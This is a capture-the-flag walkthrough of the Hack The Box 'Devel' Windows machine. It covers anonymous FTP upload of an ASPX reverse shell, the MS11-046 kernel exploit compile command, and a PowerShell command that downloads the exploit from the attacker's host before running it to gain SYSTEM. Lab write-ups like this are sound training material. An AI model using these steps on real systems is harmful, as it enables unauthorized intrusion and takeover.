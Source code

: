 ```yaml
---
layout: single
title: Hack The Box - Devel 
permalink: /htb-devel/
excerpt: "Devel is an easy machine on the hackthebox platform. I can upload a webshell in FTP with anonymous login and get administrator/system using the Windows Kernel Exploits."
classes: wide
header:
  teaser: "/assets/images/htb/devel/home_img.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
tags:
  - aspx-reverse-shell
  - CVE-2011-1249
---
```



![1](/assets/images/htb/devel/home_img.png)


# <u>1:Enumeration</u>

- scan top 1000 ports

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/1000.png)

- all ports scan

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/all_ports.png)

### <u>Open Ports</u>
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

## <u>FTP</u>
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![1](/assets/images/htb/devel/ftp.png)

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

## <u>WebPage</u>
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![1](/assets/images/htb/devel/welcome.png)

- COOL!

# <u>2:Foothold/Gaining Access</u>

## <u>ASPX Reverse Shell</u>
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![1](/assets/images/htb/devel/got_shell.png)

- I'm in as `iis apppool\web`

## <u>systeminfo</u>

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![1](/assets/images/htb/devel/systeminfo.png)

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

# <u>3:Privilege Escalation</u>

## <u>MS11-046</u>

![1](/assets/images/htb/devel/exploit-db.png)

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### <u>Compiling Exploit</u>
> <font color="yellow">Note: </font> If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
> Just run this command to install  it`apt install mingw-w64` 

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### <u>Transfer the Exploit</u>
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![1](/assets/images/htb/devel/exe.png)

- YES! I'm become `SYSTEM`

## <u>User Flag</u>

![1](/assets/images/htb/devel/user.png)

## <u>Administrator Flag</u>

![1](/assets/images/htb/devel/admin.png)

# <u>4:Conclusion</u>
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)